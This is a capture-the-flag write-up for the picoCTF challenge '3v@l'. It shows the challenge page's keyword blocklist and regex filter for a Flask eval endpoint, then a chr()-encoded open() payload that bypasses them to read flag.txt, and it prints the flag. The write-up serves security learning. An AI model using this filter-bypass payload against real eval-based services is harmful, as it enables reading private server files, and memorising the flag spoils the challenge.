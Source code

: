 # 3v@l 

# Flag 
`picoCTF{D0nt_Use_Unsecure_f@nctions463f23d8}`

# Solve 

in the source they have given us the function : 

```html
<!DOCTYPE html>
<html lang="en">
<!--
    TODO
    ------------
    Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
-->
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Welcome to ABC bank </title>
    <link rel="stylesheet" href="/static/bootstrap.min.css">
    <link rel="stylesheet" href="/static/styles.css">
</head>
<body>
    <div class="container">
        <h1 class="mb-4 text-center">Bank-Loan Calculator</h1>
        <form method="post" action="/execute">
            <div class="form-group">
                <label for="code">Enter the formula:</label>
                <textarea id="code" name="code" class="form-control" rows="10" cols="50" placeholder="example: PRT*RATE*TIME(10000*23*12)" required></textarea>
            </div>
            <button type="submit" class="btn btn-primary">Execute</button>
        </form>
        <div class="footer-link mt-4">
            <a href="/">Go back</a>
        </div>
    </div>
</body>
</html>
```

- the function : 
```py
 Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
```

we have to bypass the regex without using the blacklisted cmds, and bypass regex.

lets see what all is blocked

- path traversal
- file extensions
- hex encoding
- url encoding
- unicode escaping


so we can use : `open(''.join([chr(x) for x in [47, 102, 108, 97, 103, 46, 116, 120, 116]])).read()`

In this payload,
- `47,102,108,97,103,46,116,120,116` are the ascii for flag.txt
- `chr(x)` converts these values to chars
- `' 'join()` concatenates them into a single file path
- `open(...).read()`, reads the flag file

this input gave me the flag.

`picoCTF{D0nt_Use_Unsecure_f@nctions463f23d8}`
